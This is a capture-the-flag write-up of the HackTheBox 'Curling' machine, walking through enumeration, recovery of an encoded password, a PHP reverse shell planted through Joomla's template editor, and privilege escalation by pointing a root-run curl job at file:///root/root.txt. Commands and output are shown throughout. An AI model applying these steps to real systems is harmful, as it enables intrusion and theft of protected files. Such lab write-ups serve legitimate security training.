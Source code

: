 # Curling
![Alt text](images/0.png)
## Enumeration
As always:
```bash
kali@kali:~/hackthebox/Practice/Curling$ nmap -sC -sV -p- 10.10.10.150 -oN nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 10:41 EDT
Nmap scan report for 10.10.10.150
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.43 seconds
```
We only have to worry about two ports, so lets look at the web app. 
![Alt text](images/1.png)
And we see a blog post about curling.A couple usernames we see are floris and Super User. Lets start gobuster...
```bash
kali@kali:~/hackthebox/Practice/Curling$ ~/Downloads/gobuster/gobuster dir -u 10.10.10.150 -w /usr/share/wordlists/dirb/directory-list-1.0.txt -x php,html,log,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.150
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,log,txt
[+] Timeout:        10s
===============================================================
2020/06/18 10:48:01 Starting gobuster
===============================================================
/images (Status: 301)
/media (Status: 301)
/index.php (Status: 200)
/templates (Status: 301)
/bin (Status: 301)
/libraries (Status: 301)
/includes (Status: 301)
/plugins (Status: 301)
/language (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/cache (Status: 301)
/secret.txt (Status: 200)
/configuration.php (Status: 200)
/layouts (Status: 301)
```
We found two things, /administrator 
![Alt text](images/2.png)

and /secret.txt

![Alt text](images/3.png)

And it turns out to be base64 encoded so lets see what it's hiding.

```bash
kali@kali:~$ echo 'Q3VybGluZzIwMTgh' | base64 -d
Curling2018!
kali@kali:~$ 
```
And with the credentials floris:Curling2018! we are able to login to the admin panel. 
![Alt text](images/4.png)
## Foothold
After poking around, we find a media panel to upload pictures, so I tried to upload a php reverse shell but it gave me notice telling me that the file was unsafe. But I did find a php editor where we can edit the php to give me a reverse shell and then use the preview feature to trigger it. The php shell I used is available here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell. 
![Alt text](images/5.png)
and
![Alt text](images/6.png)
and we get a shell!
```bash
nc -l -p 1234
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:08:15 up 27 min,  0 users,  load average: 0.06, 0.12, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@curling:/$ 
```
## User
I /home/floris we were able to find user.txt and /admin-area but we didn't have read priviledges yet. 
```bash
www-data@curling:/home/floris$ ls -la
ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```
But I found an interesting file called password-backup:
```bash
www-data@curling:/home/floris$ file password_backup
file password_backup
password_backup: ASCII text
www-data@curling:/home/floris$ cat password_backup
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.'F...s.'
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$ 
```
Lets copy this to a text file, edit out the portion on the right, and try to revert back from the hexdump. 
```bash
kali@kali:~/hackthebox/Practice/Curling$ cat dump.txt
00000000 425a 6839 3141 5926 5359 819b bb48 0000  
00000010 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  
00000020 4edc cccc 6e11 5400 23ab 4025 f802 1960  
00000030 2018 0ca0 0092 1c7a 8340 0000 0000 0000  
00000040 0680 6988 3468 6469 89a6 d439 ea68 c800  
00000050 000f 51a0 0064 681a 069e a190 0000 0034  
00000060 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  
00000070 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  
00000080 f53e 0809 f073 5654 c27a 4886 dfa2 e931  
00000090 c856 921b 1221 3385 6046 a2dd c173 0d22  
000000a0 b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  
000000b0 ad6b b12f 0813 8120 8205 a5f5 2970 c503  
000000c0 37db ab3b e000 ef85 f439 a414 8850 1843  
000000d0 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  
000000e0 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  
000000f0 819b bb48
kali@kali:~/hackthebox/Practice/Curling$ xxd -r dump.txt > dump
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: bzip2 compressed data, block size = 900k # What's in here?
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ bzip2 -d dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.tgz   
kali@kali:~/hackthebox/Practice/Curling$ gunzip dump.tgz
kali@kali:~/hackthebox/Practice/Curling$ tar -xvf dump.tar
password.txt
kali@kali:~/hackthebox/Practice/Curling$ cat password.txt 
5d<wdCbdZu)|hChXll
```
Great, let's log into floris!
```bash
www-data@curling:/home/floris$ su floris
su floris
Password: 5d<wdCbdZu)|hChXll

floris@curling:~$ ls
ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user
cat user.txt 
65dd1df0713b40d88ead98cf11b8530b
floris@curling:~$ 
```
## Priviledge Escalation
Now that we have more access, let's try to see what's in the admin area.
```bash
floris@curling:~$ cd admin-area
cd admin-area/
floris@curling:~/admin-area$ ls
ls
input  report
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1"
floris@curling:~/admin-area$ cat report
cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
floris@curling:~/admin-area$ 
```
Interesting, maybe try changing the url input?
```bash
floris@curling:~/admin-area$ echo 'url = "http://127.0.0.1/secret.txt"' > input
< echo 'url = "http://127.0.0.1/secret.txt"' > input
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1/secret.txt" #Wait a few seconds
floris@curling:~/admin-area$ cat report
cat report
Q3VybGluZzIwMTgh
```
So we can use this to access the system files, lets change the input again.
```bash
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
echo 'url = "file:///root/root.txt"' > input
floris@curling:~/admin-area$ cat report
cat report
82c198ab6fc5365fdc6da2ee5c26064a
```
## Conclusion
The foothold was pretty straightforward, but I really enjoyed getting user and root.

